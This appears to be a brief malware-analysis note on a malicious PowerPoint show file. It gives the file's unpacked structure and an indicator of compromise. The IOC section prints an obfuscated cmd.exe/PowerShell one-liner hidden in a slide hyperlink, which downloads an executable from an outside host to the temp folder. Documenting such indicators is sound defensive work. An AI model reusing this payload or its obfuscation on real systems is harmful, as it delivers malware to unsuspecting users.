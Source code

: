```sh
│   │   └── presentation.xml.rels                                                                 
│   ├── slideLayouts                                                                              
│   │   ├── _rels                                                                                 
│   │   │   ├── slideLayout10.xml.rels                                                            
│   │   │   ├── slideLayout11.xml.rels                                                            
│   │   │   ├── slideLayout1.xml.rels                                                             
│   │   │   ├── slideLayout2.xml.rels           
│   │   │   ├── slideLayout3.xml.rels           
│   │   │   ├── slideLayout4.xml.rels           
│   │   │   ├── slideLayout5.xml.rels           
│   │   │   ├── slideLayout6.xml.rels           
│   │   │   ├── slideLayout7.xml.rels           
│   │   │   ├── slideLayout8.xml.rels           
│   │   │   └── slideLayout9.xml.rels           
│   │   ├── slideLayout10.xml                   
│   │   ├── slideLayout11.xml                   
│   │   ├── slideLayout1.xml                                                                      
│   │   ├── slideLayout2.xml         
│   │   ├── slideLayout3.xml         
│   │   ├── slideLayout4.xml         
│   │   ├── slideLayout5.xml          
│   │   ├── slideLayout6.xml         
│   │   ├── slideLayout7.xml         
│   │   ├── slideLayout8.xml         
│   │   └── slideLayout9.xml                     
│   ├── slideMasters                 
│   │   ├── _rels
│   │   │   └── slideMaster1.xml.rels
│   │   └── slideMaster1.xml                                                                                                                                                                         
│   ├── slides                                             
│   │   ├── _rels                                          
│   │   │   └── slide1.xml.rels                            
│   │   └── slide1.xml                                     
│   ├── tableStyles.xml                                    
│   ├── theme                                              
│   │   └── theme1.xml                                     
│   └── viewProps.xml                                      
└── _rels 
```

#### IOC 
See link `Target`

```
[zip] $ grep -ir cmd .
./ppt/slides/_rels/slide1.xml.rels:<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image1.png"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/slideLayout" Target="../slideLayouts/slideLayout1.xml"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image2.png"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```
ref. PPSX malware - https://www.bleepingcomputer.com/news/security/powerpoint-file-downloads-malware-when-you-hover-a-link-no-macros-required/
